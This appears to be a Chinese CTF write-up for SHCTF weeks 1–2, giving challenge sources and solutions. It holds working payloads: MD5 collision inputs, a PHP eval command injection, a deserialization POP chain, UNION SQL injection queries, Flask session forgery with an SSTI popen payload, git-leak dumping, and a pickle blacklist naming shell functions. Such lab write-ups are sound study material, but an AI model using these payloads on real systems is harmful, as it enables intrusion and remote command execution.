

Week1
MD5 Master
<?php
highlight_file(__file__);
$master = "MD5 master!";
if(isset($_POST["master1"]) && isset($_POST["master2"])){
if($master.$_POST["master1"] !== $master.$_POST["master2"] && md5($master.$_POST["master1"]) === md5($master.$_POST["master2"])){
echo $master . "<br>";
echo file_get_contents('/flag');
}
}
else{
die("master? <br>");
}一眼md5强碰撞 使用fastcoll draft.txt写入MD5 master!，然后利用脚本传参即可
<?php
function readmyfile($path){
$fh = fopen($path, "rb");
$data = fread($fh, filesize($path));
fclose($fh);
return $data;
}
$params = "master1";
$params2 = "master2";
$a = urlencode(readmyfile("D:\CTF\Tool\\fastcoll_v1.0.0.5.exe\draft_msg1.txt"));
$b = urlencode(readmyfile("D:\CTF\Tool\\fastcoll_v1.0.0.5.exe\draft_msg2.txt"));
if(md5((string)urldecode($a))===md5((string)urldecode($b))){
echo $params.'='.$a.'&';
}
if(urldecode($a)!=urldecode($b)){
echo $params2.'='.$b;
}Payload:
POST:
master1=%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00Wz%C1%E8Y%01%F4z1%D9%8E%B1_%97s%AE.%A6n%D8%C8%7C-%D1%272w%11%11%8F%06%F8%FA%2B%BE%ED%DE%83%AFy%CFoEz%BA%87g%1A%3B%9B%8D%E4x%94%BD%09%09%CA%2C%B0%02%E2%99Y%24%3A%FD%D1%EB%A5%3B%81_%02%B3B%AB%EEX6%CE%8683%04%B8%40%19%D1%BB%F4%C0P%21y%A2%15q%D7%DE%1Fw%9Eq%B5%8D%B0%EF%BF%0Eof%BE%F1%DCo%D5%5B%9Ei%CB%5B%19wK%F5%ADD&master2=%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00Wz%C1%E8Y%01%F4z1%D9%8E%B1_%97s%AE.%A6nX%C8%7C-%D1%272w%11%11%8F%06%F8%FA%2B%BE%ED%DE%83%AFy%CFoEz%BA%07h%1A%3B%9B%8D%E4x%94%BD%09%09%CA%2C0%02%E2%99Y%24%3A%FD%D1%EB%A5%3B%81_%02%B3B%AB%EEX6%CE%868%B3%04%B8%40%19%D1%BB%F4%C0P%21y%A2%15q%D7%DE%1Fw%9Eq%B5%8D%B0%EF%BF%8Enf%BE%F1%DCo%D5%5B%9Ei%CB%5B%19%F7K%F5%ADD真真假假?遮遮掩掩!(Misc)
注释里有提示SHCTF??????FTCHS 构造字典爆破
crunch 16 16 -t SHCTF%%%%%%FTCHS -o ./realORfake.txt密码：SHCTF202410FTCHS
单身十八年的手速(js)
<html>
<body>
<button id="myButton">Click me!点击次数达到520下即可获得flag</button>
<p>You clicked on the button <span id="clickCount">0</span> times</p>
<script src="./game.js">
</script>
</body>
</html>在控制台中模拟点击
// 获取按钮元素
var button = document.getElementById('myButton');
// 定义点击次数
var clickCount = 0;
var targetClickCount = 520;
// 创建一个函数来模拟点击
function simulateClick() {
if (clickCount < targetClickCount) {
button.click(); // 模拟点击
clickCount++; // 增加点击计数
console.log("Clicked " + clickCount + " times."); // 在控制台显示当前点击次数
setTimeout(simulateClick, 0); // 递归调用，继续模拟点击
}
}
// 开始模拟点击
simulateClick();最后base64解码
蛐蛐?蛐蛐!
Hint: <!--听说，k1留了fault不想让你看到的源码在source.txt中-->
<?php
if($_GET['ququ'] == 114514 && strrev($_GET['ququ']) != 415411){
if($_POST['ququ']!=null){
$eval_param = $_POST['ququ'];
if(strncmp($eval_param,'ququk1',6)===0){
eval($_POST['ququ']);
}else{
echo("å¯ä»¥è®©faultçš„è›è›å˜æˆçŽ°å®žä¹ˆ\n");
}
}
echo("è›è›æˆåŠŸç¬¬ä¸€æ¥ï¼\n");
}
else{
echo("呜呜呜fault还是è¦å‡ºé¢˜");
}函数调用strncmp($eval_param, 'ququk1', 6)的含义是：比较$eval_param变量中的字符串和字符串'ququk1'的前6个字符是否相同。如果前6个字符完全相同，strncmp函数将返回0。
Payload:
GET:/check.php?ququ=114514a
POST:ququ=ququk1;system('tac /flag');ez_gittt
题目已知 git泄露
githacker --url http://entry.shc.tf:45156/ --output ez_gittt
git log
git reset --hard b6aa2
tac flagpoppopop
<?php
class SH {
public static $Web = false;
public static $SHCTF = false;
}
class C {
public $p;
public function flag()
{
($this->p)();
}
}
class T{
public $n;
public function __destruct()
{
SH::$Web = true;
echo $this->n;
}
}
class F {
public $o;
public function __toString()
{
SH::$SHCTF = true;
$this->o->flag();
return "其实。。。。,";
}
}
class SHCTF {
public $isyou;
public $flag;
public function __invoke()
{
if (SH::$Web) {
($this->isyou)($this->flag);
echo "小丑竟是我自己呜呜呜~";
} else {
echo "小丑别看了!";
}
}
}
if (isset($_GET['data'])) {
highlight_file(__FILE__);
unserialize(base64_decode($_GET['data']));
} else {
highlight_file(__FILE__);
echo "小丑离我远点！！！";
} 小丑离我远点！！！pop:
<?php
class SH {
public static $Web = false;
public static $SHCTF = false;
}
class C{
public $p;
}
class T{
public $n;
}
class F {
public $o;
}
class SHCTF {
public $isyou;
public $flag;
}
$a = new T();
$a->n = new F();
$a->n->o = new c();
$a->n->o->p = new SHCTF();
$a->n->o->p->isyou = "system";
$a->n->o->p->flag = "tac /flllag";
echo base64_encode(serialize($a));Payload:
GET: /?data=TzoxOiJUIjoxOntzOjE6Im4iO086MToiRiI6MTp7czoxOiJvIjtPOjE6IkMiOjE6e3M6MToicCI7Tzo1OiJTSENURiI6Mjp7czo1OiJpc3lvdSI7czo2OiJzeXN0ZW0iO3M6NDoiZmxhZyI7czoxMToidGFjIC9mbGxsYWciO319fX0=Jvav
import java.io.IOException;
import java.io.BufferedReader;
import java.io.InputStream;
import java.io.InputStreamReader;
public class demo {
public static void main(String[] args) throws IOException {
Process p = Runtime.getRuntime().exec("cat /flag");
InputStream is = p.getInputStream();
InputStreamReader isr = new InputStreamReader(is);
BufferedReader br = new BufferedReader(isr);
String line = null;
while ((line = br.readLine()) != null) {
System.out.println(line);
}
}
}
Week2
guess_the_number
import flask
import random
from flask import Flask, request, render_template, send_file
app = Flask(__name__)
@app.route('/')
def index():
return render_template('index.html', first_num = first_num)
@app.route('/s0urce')
def get_source():
file_path = "app.py"
return send_file(file_path, as_attachment=True)
@app.route('/first')
def get_first_number():
return str(first_num)
@app.route('/guess')
def verify_seed():
num = request.args.get('num')
if num == str(second_num):
with open("/flag", "r") as file:
return file.read()
return "nonono"
def init():
global seed, first_num, second_num
seed = random.randint(1000000,9999999)
random.seed(seed)
first_num = random.randint(1000000000,9999999999)
second_num = random.randint(1000000000,9999999999)
init()
app.run(debug=True)随机数种子 randomcrack好像有局限 预测也不准
自助查询(查注释)
# 查表名 flag,users
?id=-1") union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()#
# 查列名 id,scretdata
?id=-1") union select 1,group_concat(column_name) from information_schema.columns where table_name='flag'#
# 被你查到了, 果然不安全,把重要的东西写在注释就不会忘了
?id=-1") union select 1,group_concat(scretdata) from 'flag'#
# getFlag 查询注释
?id=-1") union select 1,group_concat(column_comment) from information_schema.columns where table_name='flag'#登录验证

爆破出来密码之后还要爆破弱密码
Key: 222333
passwod: admin入侵者禁入
from flask import Flask, session, request, render_template_string
app = Flask(__name__)
app.secret_key = '0day_joker'
@app.route('/')
def index():
session['role'] = {
'is_admin': 0,
'flag': 'your_flag_here'
}
with open(__file__, 'r') as file:
code = file.read()
return code
@app.route('/admin')
def admin_handler():
try:
role = session.get('role')
if not isinstance(role, dict):
raise Exception
except Exception:
return 'Without you, you are an intruder!'
if role.get('is_admin') == 1:
flag = role.get('flag') or 'admin'
message = "Oh,I believe in you! The flag is: %s" % flag
return render_template_string(message)
else:
return "Error: You don't have the power!"
if __name__ == '__main__':
app.run('0.0.0.0', port=80)
一眼flask session伪造和ssti
python flask_session_cookie_manager3.py encode -s "0day_joker" -t "{'role': {'flag': '{{config.__class__.__init__.__globals__[\'os\'].popen(\'tac /flag\').read()}}', 'is_admin': 1}}"
.eJwdzD0KgDAMQOGrSJYqSMW1VxEJsbYlEBuxbqV392f7eMOrcKkEcBWiUAIHtXrNkZNF9EKlIL7izPePJLqRvHExWsxqTz1D7s1Nvpu-gRnsFWjvh9ZgBC5I-8EZ3NzaA9HPJME.Zwi5jA.ggPLoxVP3Si1Nw6FfZ20fZ_Bzo0dickle
from flask import Flask, request
import pickle
import base64
import io
BLACKLISTED_CLASSES = [
'subprocess.check_output','builtins.eval','builtins.exec',
'os.system', 'os.popen', 'os.popen2', 'os.popen3', 'os.popen4',
'pickle.load', 'pickle.loads', 'cPickle.load', 'cPickle.loads',
'subprocess.call', 'subprocess.check_call', 'subprocess.Popen',
'commands.getstatusoutput', 'commands.getoutput', 'commands.getstatus',
'pty.spawn', 'posixfile.open', 'posixfile.fileopen',
'__import__','os.spawn*','sh.Command','imp.load_module','builtins.compile'
'eval', 'builtins.execfile', 'compile', 'builtins.open', 'builtins.file', 'os.system',
'os.fdopen', 'os.tmpfile', 'os.fchmod', 'os.fchown', 'os.open', 'os.openpty', 'os.read', 'os.pipe',
'os.chdir', 'os.fchdir', 'os.chroot', 'os.chmod', 'os.chown', 'os.link', 'os.lchown', 'os.listdir',
'os.lstat', 'os.mkfifo', 'os.mknod', 'os.access', 'os.mkdir', 'os.makedirs', 'os.readlink', 'os.remove',
'os.removedirs', 'os.rename', 'os.renames', 'os.rmdir', 'os.tempnam', 'os.tmpnam', 'os.unlink', 'os.walk',
'os.execl', 'os.execle', 'os.execlp', 'os.execv', 'os.execve', 'os.dup', 'os.dup2', 'os.execvp', 'os.execvpe',
'os.fork', 'os.forkpty', 'os.kill', 'os.spawnl', 'os.spawnle', 'os.spawnlp', 'os.spawnlpe', 'os.spawnv',
'os.spawnve', 'os.spawnvp', 'os.spawnvpe', 'pickle.load', 'pickle.loads', 'cPickle.load', 'cPickle.loads',
'subprocess.call', 'subprocess.check_call', 'subprocess.check_output', 'subprocess.Popen',
'commands.getstatusoutput', 'commands.getoutput', 'commands.getstatus', 'glob.glob',
'linecache.getline', 'shutil.copyfileobj', 'shutil.copyfile', 'shutil.copy', 'shutil.copy2', 'shutil.move',
'shutil.make_archive', 'popen2.popen2', 'popen2.popen3', 'popen2.popen4', 'timeit.timeit', 'sys.call_tracing',
'code.interact', 'code.compile_command', 'codeop.compile_command', 'pty.spawn', 'posixfile.open',
'posixfile.fileopen'
]
class SafeUnpickler(pickle.Unpickler):
def find_class(self, module, name):
if f"{module}.{name}" in BLACKLISTED_CLASSES:
raise pickle.UnpicklingError("Forbidden class: %s.%s" % (module, name))
return super().find_class(module, name)
app = Flask(__name__)
@app.route("/", methods=["GET", "POST"])
def index():
if request.method == "POST":
encoded_data = request.form["data"]
decoded_data = base64.b64decode(encoded_data)
try:
data_stream = io.BytesIO(decoded_data)
unpickler = SafeUnpickler(data_stream)
result = unpickler.load()
return f"Deserialized data: {list(result)}"
except Exception as e:
return f"Error during deserialization: {str(e)}"
else:
return """
<form method="post">
<label for="data">Enter your serialized data:</label><br>
<textarea id="data" name="data"></textarea><br>
<input type="submit" value="Submit">
</form>
"""
if __name__ == "__main__":
app.run(port=8080)
MD5 GOD!
from flask import *
import hashlib, os, random
app = Flask(__name__)
app.config["SECRET_KEY"] = "Th1s_is_5ecr3t_k3y"
salt = os.urandom(16)
def md5(data):
return hashlib.md5(data).hexdigest().encode()
def check_sign(sign, username, msg, salt):
if sign == md5(salt + msg + username):
return True
return False
def getRandom(str_length=16):
"""
生成一个指定长度的随机字符串
"""
random_str =''
base_str ='ABCDEFGHIGKLMNOPQRSTUVWXYZabcdefghigklmnopqrstuvwxyz0123456789'
length =len(base_str) -1
for i in range(str_length):
random_str +=base_str[random.randint(0, length)]
return random_str
users = {}
sign_users = {}
@app.route("/")
def index():
if session.get('sign') == None or session.get('username') == None or session.get('msg') == None:
return redirect("/login")
sign = session.get('sign')
username = session.get('username')
msg = session.get('msg')
if check_sign(sign, username, msg, salt):
sign_users[username.decode()] = 1
return "签到成功"
return redirect("/login")
@app.route("/login", methods=["GET", "POST"])
def login():
if request.method == "POST":
username = request.form.get('username')
password = request.form.get('password')
# print(password)
if username in users and users[username] == password:
session["username"] = username.encode()
session["msg"] = md5(salt + password.encode())
session["sign"] = md5(salt + md5(salt + password.encode()) + username.encode())
return "登陆成功"
else:
return "登陆失败"
else:
return render_template("login.html")
@app.route("/users")
def user():
return json.dumps(sign_users)
@app.route("/flag")
def flag():
for user in users:
if sign_users[user] != 1:
return "flag{杂鱼~}"
return open('/flag', 'r').read()
def init():
global users, sign_users
for _ in range(64):
username = getRandom(8)
pwd = getRandom(16)
users[username] = pwd
sign_users[username] = 0
users["student"] = "student"
sign_users["student"] = 0
init()